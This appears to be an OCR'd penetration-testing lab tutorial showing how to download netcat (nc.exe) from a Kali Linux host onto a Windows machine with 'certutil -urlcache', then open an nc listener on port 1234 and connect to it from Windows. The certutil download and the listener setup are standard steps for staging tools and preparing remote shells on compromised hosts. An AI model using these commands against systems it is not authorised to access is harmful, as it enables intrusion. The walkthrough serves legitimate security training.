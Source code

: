 Kali Linux: 10.10.3.3

Open up a command prompt session.

How do I download a file from the Kali Linux system through command prompt?

```
C:\Users\Administrator>cd Desktop
```

`-f`: the file option.

```
C:\Users\Administrator\Desktop>certutil -urlcache -f http://10.10.3.3/nc.exe nc.exe
```

```
C:\Users\Administrator\Desktop>nc.exe -h
```

```
cd ~/Desktop
```

We can get started with setting up a listener.

Let's start off with our first example.

We can set up the listener on Kali Linux.

`-nvlp`: no DNS resolution, verbose output. We want to listen on port 1234.

`-l`: is for listening.

`-p`: Specify the port that you'd like to listen on the Kali Linux system.

```
nc -nvlp 1234
Ncat: Listening on 0.0.0.0:1234
```

We can now utilize Netcat on the Windows system to connect to the listener on the Kali Linux system.

```
C:\Users\Administrator\Desktop>cls
```

In order to connect to a listener:

```
C:\Users\Administrator\Desktop>nc.exe -nv 10.10.3.3 1234
(UNKNOWN) [10.10.3.3] 1234 (?) open
```

Take a look at the Kali Linux system,

```
nc -nvlp 1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.4.20.244:49268
```

That is how to set up a listner and how clients can connect to a listener.
